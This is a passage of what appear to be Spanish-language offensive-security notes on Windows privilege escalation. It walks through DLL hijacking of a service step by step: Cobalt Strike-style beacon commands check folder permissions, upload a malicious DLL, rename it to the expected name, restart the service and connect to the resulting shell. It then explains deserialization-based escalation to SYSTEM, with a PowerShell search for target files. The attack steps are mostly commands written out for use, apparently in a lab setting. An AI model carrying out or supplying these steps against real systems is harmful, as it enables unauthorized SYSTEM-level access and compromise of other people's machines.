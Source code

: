 ```powershell
# 1. Ver si el ejecutable llama a una DLL sin ruta (típico en apps mal hechas)
→ Ya confirmado que busca "BadDll.dll" sin ruta

# 2. Ver el directorio donde se ejecuta el servicio
beacon> ls "C:\Program Files\Bad Windows Service\Service Executable"

# 3. Ver si ese directorio es escribible
beacon> cacls "C:\Program Files\Bad Windows Service\Service Executable"
# Si ves: Authenticated Users:(CI)(OI)F → TIENES PERMISOS PARA ESCRIBIR 🟢

# 4. Subir DLL maliciosa
beacon> cd "C:\Program Files\Bad Windows Service\Service Executable"
beacon> upload C:\Payloads\dns_x64.dll

# 5. Renombrar a la DLL que busca la app
beacon> mv dns_x64.dll BadDll.dll

# 6. Esperar a que se ejecute el servicio o reiniciarlo si puedes
beacon> run sc stop BadWindowsService
beacon> run sc start BadWindowsService

# 7. Ya tienes shell con los privilegios del servicio 😈
beacon> connect localhost 4444 (o lo que hayas definido)
```



### 🔹 **7.  Escalada por Vulnerabilidad de Deserialización**

Muchos programas guardan objetos en archivos binarios. Para volver a usarlos, **deserializan** esos archivos. El problema aparece cuando el programa:

- Deserializa datos desde una **ruta que puedes controlar** (como `C:\Temp\data.bin`)
- Usa una técnica vulnerable como `BinaryFormatter`
- **Corre con privilegios elevados** (ej: SYSTEM, admin)

👉 En ese caso, puedes **escribir un archivo malicioso** que, al ser deserializado, ejecute **tu código como SYSTEM**. 🔥

```powershell
#BUSCAR BINARIOS QUE DESERIALIZEN
Get-ChildItem -Path C:\ -Recurse -Include *.bin,*.dat,*.txt -ErrorAction SilentlyContinue -Force |
Where-Object { 
    -not $_.PSIsContainer -and 
    (Get-Content $_.FullName -ErrorAction SilentlyContinue | Select-String -SimpleMatch "deserialise") 
} |
Select-Object FullName
```

- Si tú puedes **escribir en la ruta del binario** y ese programa corre con permisos elevados… ¡es tu oportunidad!
